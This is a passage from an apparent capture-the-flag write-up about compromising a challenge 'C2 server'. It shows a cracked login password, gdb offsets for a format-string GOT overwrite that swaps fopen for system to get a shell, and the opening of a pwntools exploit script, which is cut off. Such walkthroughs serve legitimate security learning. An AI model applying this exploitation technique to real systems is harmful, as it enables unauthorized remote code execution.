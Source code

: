 This gives a zip file with a new binary and the flag: improsegg{debugging_like_cha_cha!!}

### Notes:

The zip file is deleted, however if you create a file called scp.bat in the same directory as backdoor_installer.exe with the following content: `pause` can you get the program to wait while you copy the backdoor.zip file.

## Step 5 - Take over the C2 server
In the last step must you take over the C2 server.

The password that is used when connecting can be seen as a md5 hash in the binary.

After using crackstation.net (or your favorite md5 cracking tool) is the login password found to be shopgirl711 (MD5 Hash: 159b3b263de3f0019cc7358f71eeb7c3)

This will give you access to a menu where you can run a few commands. Including maps.

In the code is a line where it prints what ever you want to run. This can be used to do a format string attack.

It can be seen that the maps command is executed using a value in the `maps_file` variable. The goal is to overwrite this variable.

First step is to find the maps_file offset. Using gdb can the following be seen:

{% highlight %}
gef➤  p &maps_file
$1 = (<data variable, no debug info> *) 0x5555555580c0 <maps_file>
{% endhighlight %}

This gives is an offset of maps_file to be at base of backdoor+0x40c0

To overwrite maps_file with '/bin/sh' and changing the call to fopen to system can we get a shell.

The offset of fopen, which are to overwritten is found to be at (using the got command from gef)
[0x555555558038] fopen@GLIBC_2.2.5  →  0x555555555086

This gives an offset from base to be at: base+0x4038

The systemcall address that we want to write to the fopen position is found in the libc. The offset is found using the following command:

{% highlight %}
gef➤  p &system
$2 = (int (*)(const char *)) 0x7ffff7b462c0 <__libc_system>
{% endhighlight %}

This gives and offset from the libc base to be at: +0x522c0

Using the pwntools from python can the flag be found:

{% highlight python %}
from pwn import *

# context.binary = ELF("./backdoor")

host = '164.92.150.74'
port = 1337

def exec_fmt(payload):
    r = remote(host,port)
    r.sendlineafter(b"Enter username: ", b"improsec")
    r.sendlineafter(b"Enter password: ", b"shopgirl711")
    r.sendlineafter(b"Enter command: ", payload)
    r.recvuntil(b"Trying to execute command: ")
    res = r.recvline()
    print(res)
    return res

